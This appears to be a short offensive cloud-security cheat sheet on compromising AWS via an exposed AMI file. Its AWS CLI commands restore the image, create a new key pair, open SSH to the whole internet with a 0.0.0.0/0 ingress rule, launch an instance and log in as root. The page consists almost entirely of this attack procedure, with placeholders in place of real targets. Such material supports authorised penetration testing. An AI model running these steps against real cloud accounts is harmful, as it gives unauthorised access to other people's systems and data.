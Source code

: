 # AMI Files

## AMI file to EC2 compromise

Restore the EC2 instance using the exposed AMI file. You will receive a JSON response with an `ImageId` key and value. Store the value because it will be needed to start the instance.

```
aws ec2 create-restore-image-task --object-key <AMI id> --bucket <bucket> --name <arbitrary name>
```

Create a new SSH key pair

```
aws ec2 create-key-pair --key-name <arbitrary name> --query "KeyMaterial" --output text > <path>.pem
```

Get information about subnets and security groups

```
aws ec2 describe-subnets
aws ec2 describe-security-groups
```

If the subnet does not contain a security rule that allows SSH access run the following commands

```
aws ec2 create-security-group --group-name <name> --description "<descr>" --vpc-id <subnet id>
aws ec2 authorize-security-group-ingress --group-id <security group id> --protocol tcp --port 22 --cidr 0.0.0.0/0
```

Create a new EC2 instance with SSH access. Add the generated key to the new instance. If the operation is successful you will receive a JSON response with the information related to the new EC2 instance. Store the `InstanceId` value as reference to the new instance.

```
aws ec2 run-instances --image-id <restored image ID> --instance-type t3a.micro --key-name <generated key name> --subnet-id <subnet id> --security-group-id <security group id>
```

Get the public ip address of the instance

```
aws ec2 describe-instances --instance-ids <instance id> --query 'Reservations[*].Instances[*].PublicIpAddress' --output text
```

Connect to the instance via SSH

```
ssh -i "<key file>.pem" root@<EC2 ip address>
```
